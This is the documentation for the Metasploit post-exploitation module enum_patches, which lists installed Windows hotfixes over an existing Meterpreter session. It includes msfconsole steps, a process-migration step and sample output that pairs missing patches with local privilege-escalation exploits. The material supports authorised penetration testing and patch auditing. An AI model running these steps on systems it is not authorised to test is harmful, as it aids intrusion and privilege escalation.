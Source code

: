 
## Vulnerable Application

  This module will attempt to enumerate which patches are applied to a
  windows system based on the result of the WMI query: `SELECT HotFixID FROM Win32_QuickFixEngineering`.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/enum_patches```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  **KB**

  A comma separated list of KB patches to search for. Default is: `KB2871997, KB2928120`

  **MSFLOCALS**

  Search for missing patches for which there is a MSF local module. Default is `true`.

  **SESSION**

  The session to run this module on.

## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49223) at 2019-12-14 08:37:46 -0700

  msf > use post/windows/gather/enum_patches
  msf post(windows/gather/enum_patches) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/enum_patches) > run
    [-] Known bug in WMI query, try migrating to another process
    [*] Post module execution completed
  msf post(windows/gather/enum_patches) > sessions 1
    [*] Starting interaction with 1...
  meterpreter > run post/windows/manage/migrate

    [*] Running module against TEST-PC
    [*] Current server process: Explorer.EXE (1908)
    [*] Spawning notepad.exe process to migrate to
    [+] Migrating to 3992
    [+] Successfully migrated to process 3992
  meterpreter > background
    [*] Backgrounding session 1...
  msf post(windows/gather/enum_patches) > run

    [+] KB2871997 is missing
    [+] KB2928120 is missing
    [+] KB977165 - Possibly vulnerable to MS10-015 kitrap0d if Windows 2K SP4 - Windows 7 (x86)
    [+] KB2305420 - Possibly vulnerable to MS10-092 schelevator if Vista, 7, and 2008
    [+] KB2592799 - Possibly vulnerable to MS11-080 afdjoinleaf if XP SP2/SP3 Win 2k3 SP2
    [+] KB2778930 - Possibly vulnerable to MS13-005 hwnd_broadcast, elevates from Low to Medium integrity
    [+] KB2850851 - Possibly vulnerable to MS13-053 schlamperei if x86 Win7 SP0/SP1
    [+] KB2870008 - Possibly vulnerable to MS13-081 track_popup_menu if x86 Windows 7 SP0/SP1
    [*] Post module execution completed
  ```
